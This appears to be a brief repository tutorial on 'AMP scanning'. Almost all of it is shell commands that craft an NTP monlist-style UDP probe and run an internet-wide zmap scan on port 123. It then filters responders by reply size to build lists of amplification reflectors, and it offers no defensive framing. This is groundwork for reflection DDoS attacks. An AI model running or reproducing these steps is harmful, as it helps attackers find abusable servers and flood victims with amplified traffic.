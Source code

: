 ## AMP Scanning Tutorial(ubuntu)

# Scanning

# Making a probe
echo -ne '[PAYLOAD]' >> [OUTPUT].pkt

# Example
echo -ne '\x17\x00\x03\x2a\x00\x00\x00\x00' >> ntp.pkt

# Installing
apt-get -y update && apt-get -y upgrade && apt-get -y install zmap && apt-get -y install python && apt-get -y install screen

# Scanning
zmap -p [PORT] -M udp --probe-args=file:[PROBE].pkt -o [OUTPUT].txt

# Example
zmap -p 123 -M udp --probe-args=file:/root/ntp.pkt -o ntp.txt

# Screen
screen -dmS ntp zmap -p 123 -M udp --probe-args=file:/root/ntp.pkt -o ntp.txt

# Filtering (just use EasyFilter 1.0 by Alemalakra)
python filter.py <INPUT> <OUTPUT> <PROTOCOL> <MIN BYTES> <OUTPUT SYNTAX>

# Example
python filter.py ntp.txt ntp_filtered.txt ntp 8 [ip][space][bytes]

# Change the min bytes according to the amp
